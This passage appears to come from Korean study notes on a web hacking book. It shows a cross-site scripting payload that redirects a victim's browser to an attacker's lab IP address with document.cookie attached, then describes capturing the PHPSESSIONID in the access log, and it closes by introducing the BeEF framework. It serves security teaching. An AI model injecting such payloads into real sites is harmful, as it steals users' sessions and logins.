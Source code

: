 <div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#010101">&lt;</span><span style="color:#ff3399">script</span><span style="color:#010101">&gt;</span><span style="color:#0099cc">document</span>.<span style="color:#0099cc">location</span><span style="color:#ff3399">=</span><span style="color:#993333">'http://192.168.37.130/cookie?'</span><span style="color:#039C43"></span><span style="color:#ff3399">+</span><span style="color:#0099cc">document</span>.cookie<span style="color:#010101">&lt;</span><span style="color:#010101">/</span><span style="color:#ff3399">script</span><span style="color:#010101">&gt;</span></div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>
<div align="center" >
<img src="/Art of Web Hacking/Chapter9/008.png" width="660" height="160"> <br>
</div><br>
<div align="center" >
<img src="/Art of Web Hacking/Chapter9/009.png" width="660" height="460"> <br>
</div>스샷. 8-9<br><br>
- 리다이렉트된 URL이 공격자의 호스트에 존재하지 않기 때문에 에러 발생, 무시해도 되고<br>
접근 로그에 GET /cookie? 문자열 이후 나오는 내용은 document cookie에 의해 출력된 쿠키 정보, PHPSESSIONID 쿠키 탈취 성공
<br><br>
<center><font size="4em" color="#0091ff">BeEF 공격 프레임워크</font> </center><br>
